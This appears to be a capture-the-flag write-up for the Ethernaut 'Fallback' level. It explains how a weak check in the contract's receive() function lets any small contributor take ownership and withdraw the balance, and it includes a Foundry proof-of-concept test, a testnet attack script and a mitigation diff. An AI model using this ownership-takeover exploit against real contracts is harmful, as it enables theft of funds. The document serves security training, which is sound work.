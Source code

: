 # Level 1: Fallback

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

**Description**:

Look carefully at the contract's code below.

You will beat this level if

you claim ownership of the contract
you reduce its balance to 0
  Things that might help

How to send ether when interacting with an ABI
How to send ether outside of the ABI
Converting to and from wei/ether units (see `help()` command)
Fallback methods


**Code**:

The smart contract to be exploited:

<details>
<summary>See Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

</details>

# Findings

### [H-1] Weak comparison can lead to an attack that loses ownership and reduces all contract balances cheaply

**Description**: The comparison `msg.value > 0 && contributions[msg.sender] > 0` in `Fallback::receive` function should not compare only if the contribution is greater than zero, this leads a malicious address to send an ETH contribution using `Fallback::contribute` function and send ETH directly to the contract right after. Then the malicious address can claim ownership by just sending `1 wei`, for example, since the `msg.value` is greater than zero and the `contributions[msg.sender]` is too. After claiming the ownership the address can execute the `Fallback::withdraw` function and steal all the contract balances.

```javascript
    receive() external payable {
@>      require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

**Impact**: Any strange address could claim the ownership and therefore, steal all the contract balances using the `Fallback::withdraw` function.

**Proof of Code**:

See the complete code in `test/FallbackAttack.t.sol`.

<details>

<summary>See Code</summary>

```javascript
  function testShouldStealContractBalance() public{
    address contribuitor1 = vm.addr(1);
    address contribuitor2 = vm.addr(2);
    vm.deal(contribuitor1, 1e18);
    vm.deal(contribuitor2, 1e18);

    vm.prank(contribuitor1);
    fallbackContract.contribute{value: 100 wei}();

    vm.prank(contribuitor2);
    fallbackContract.contribute{value: 100 wei}();

    assertEq(address(fallbackContract).balance, 200);

    // attack
    vm.startPrank(attacker);

    // Contributing
    fallbackContract.contribute{value: 1}();
    
    // Sending eth
    (bool success,) = payable(address(fallbackContract)).call{value: 1}("");
    if(!success) revert();

    // Withdrawing all eth
    fallbackContract.withdraw();

    vm.stopPrank();

    assertEq(fallbackContract.owner(), attacker);
    assertEq(address(attacker).balance, INITIAL_BALANCE + 200);
    assertEq(address(fallbackContract).balance, 0);
  }
```

</details>

**Recommended Mitigation**: The mitigation depends on the project requirements. But here are some ways we could fix this issue:

1. Remove the `Fallback::receive` function and only allow users to contribute through `Fallback::contribute` function.
2. Update the `Fallback::receive` comparison to `msg.value > 0 && contributions[msg.sender] > contributions[owner]`. This would ensure that the ownership is only changed if the user contribution is greater than the last owner contribution. This would be like:

```diff
receive() external payable {
-   require(msg.value > 0 && contributions[msg.sender] > 0);
+   require(msg.value > 0 && contributions[msg.sender] > contributions[owner]);
    owner = msg.sender;
}
```

# Attack

**Description**: The attack used the strategy tested in `FallbackAttack.t.sol`, so we just need to build a script as `FallbackAttack.s.sol` that implements this strategy and sends to the chain.

Code snippet:

```javascript
  // Contributing
  fallbackContract.contribute{value: 1 wei}();

  // Sending eth
  (bool success,) = payable(address(fallbackContract)).call{value: 1 wei}("");
  if(!success) revert();

  // Withdrawing all eth
  fallbackContract.withdraw();
```

**Instance used**: [0x836c5bc2ac19240bAD8c3d2fB56F36D355A56B25](https://sepolia.etherscan.io/address/0x836c5bc2ac19240bAD8c3d2fB56F36D355A56B25)

**Attack Transactions**: [see on etherscan](https://sepolia.etherscan.io/address/0x836c5bc2ac19240bAD8c3d2fB56F36D355A56B25)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xc28ef761dac3c5bd93ab5c5bc036953d70fbe1081430537b5f2b0313d08ad208)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```